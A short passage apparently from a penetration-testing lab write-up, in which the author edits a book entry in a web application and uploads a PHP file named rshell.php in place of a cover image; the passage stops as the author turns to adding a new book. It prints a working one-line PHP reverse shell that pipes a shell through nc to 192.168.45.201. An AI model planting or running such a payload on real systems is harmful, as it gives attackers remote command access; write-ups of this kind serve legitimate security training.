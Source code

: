 ![](./assets/editbooks.png)

I edit the first book, ("C++...") and upload the following PHP reverse shell `rshell.php` as the image file:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.201 80 >/tmp/f");?>
```

Editing a book did not work, so I tried adding a new book:
